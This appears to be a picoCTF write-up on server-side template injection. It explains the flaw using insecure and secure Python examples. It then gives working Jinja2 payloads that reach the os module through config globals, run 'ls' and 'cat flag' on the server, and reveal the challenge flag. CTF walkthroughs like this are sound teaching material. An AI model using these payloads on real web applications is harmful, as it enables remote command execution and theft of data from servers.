





I made a cool website where you can announce whatever you want! Try it out!

I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:51827/)


## Theory
### Server Side Template Injection (SSTI) 
web vulnerability that happens when user input is unsafely concatenated directly into a backend template engine instead of being handled as plain data. 

### Example
**Vulnerable Way**: The developer appends raw text input directly into the template string before rendering it.
```python
# INSECURE: The input string becomes part of the code execution structure
template = "<h1>Welcome, " + user_input + "!</h1>"
render_string(template)
```

**Secure Way**: The developer keeps the template file static and safely passes the input inside a designated variable array.
```python
# SECURE: The input is locked as a strict string variable
render_template("profile.html", name=user_input)
```





So we can inject code in this input form and we can use python global variables to see what libraries are imported .

```python 
{{ config.__class__.__init__.__globals__.keys() }}
```

Try this and see if there is the OS module imported 

{
then use this to see the listed files 
```python
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```


now use the cat command to see the internal contents 

```python
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```


```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
```